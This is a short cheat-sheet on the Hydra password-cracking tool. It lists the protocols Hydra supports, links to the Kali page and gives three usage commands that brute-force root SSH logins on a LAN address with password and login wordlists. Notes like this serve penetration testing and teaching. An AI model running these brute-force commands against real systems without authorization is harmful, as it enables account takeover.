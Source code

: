 #### Introduction

Hydra is a password cracking utility that is very useful for cracking various types of systems. It supports a large number of systems:

- Cisco AAA
- Cisco auth
- Cisco enable
- CVS
- FTP
- HTTP(S)-FORM-GET
- HTTP(S)-FORM-POST
- HTTP(S)-GET
- HTTP(S)-HEAD
- HTTP-Proxy
- ICQ
- IMAP
- IRC
- LDAP
- MS-SQL
- MySQL
- NNTP
- Oracle Listener
- Oracle SID
- PC-Anywhere
- PC-NFS
- POP3
- PostgreSQL
- RDP
- Rexec
- Rlogin
- Rsh
- SIP
- SMB(NT)
- SMTP
- SMTP Enum
- SNMP v1+v2+v3
- SOCKS5
- SSH (v1 and v2)
- SSHKEY
- Subversion
- Teamspeak (TS2)
- Telnet
- VMware-Auth
- VNC and XMPP

#### Links

Hydra is built into Kali

- https://tools.kali.org/password-attacks/hydra

#### Usage

Attempting to login into to a remote system (as root) using a set password list

- hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.0.185

Attempting to login into to a remote system (as root) using a custom saved password list

- hydra -l root -P passwords.txt -t 6 ssh://192.168.0.185

Attempting to login into to a remote system using a custom login list and using a custom saved password list (note the upper case "L")

- hydra -L login.txt -P passwords.txt -t 6 ssh://192.168.0.185
